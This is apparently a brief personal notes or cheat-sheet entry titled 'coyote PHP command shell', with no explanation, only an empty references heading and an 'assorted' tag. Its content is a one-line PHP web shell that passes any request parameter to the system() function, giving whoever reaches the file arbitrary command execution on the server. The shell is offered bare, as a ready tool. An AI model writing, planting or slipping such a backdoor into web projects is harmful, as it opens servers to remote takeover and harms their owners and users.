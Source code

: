 # coyote PHP command shell
```php
<?php system($_REQUEST[0]); ?>
```


# References

Tags:
    #assorted

